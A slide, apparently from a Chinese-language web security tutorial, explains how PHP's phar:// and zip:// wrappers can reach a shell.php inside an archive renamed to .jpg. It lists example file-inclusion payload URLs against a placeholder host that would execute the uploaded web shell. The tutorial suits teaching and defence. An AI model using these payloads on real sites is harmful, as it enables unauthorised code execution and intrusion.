

2. phar://与zip://
	phar://与zip://可以获取压缩文件内的内容，如在hack.zip的压缩包中，有一个shell.php的文件，则可以通过phar://hack.zip/shell.php的方式访问压缩包内的文件，zip://也是类似。这两个协议不受文件后缀名的影响，将hack.zip改名为hack.jpg后，依然可以通过这种方式访问压缩包内的文件。
| /\*常用payload\*/ http://www.xxx.com/index.php?func=zip://hack.jpg%23shell.php /\*zip协议的用法为zip://hack.jpg#shell.php，由于#在http协议中有特殊的含义，所以在发送请求时要对其进行url编码\*/ http://www.xxx.com/index.php?func=phar://hack.jpg/shell.php |
| --- |